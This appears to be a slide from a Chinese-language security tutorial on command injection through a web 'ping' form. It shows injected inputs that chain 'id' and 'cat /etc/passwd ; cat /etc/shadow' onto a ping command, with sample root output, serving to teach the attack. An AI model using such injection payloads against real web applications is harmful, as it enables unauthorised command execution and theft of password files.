

# 指令介面指令下達進階用法
資安小天地惡意指令
Command Injection(對網頁作注射攻擊)
Ping for free

ping: unknown host uid=0(root) gid=0(root) group=0(root)
展開出執行id權限;打開系統帳號清單;打開密碼清單
ping –c [IP address]  ;  id
submit
ping –c [IP address]  ;  “$(id)”
submit
ping –c [IP address] ; “$(id)”; cat /etc/passwd ; cat /etc/shadow
submit
209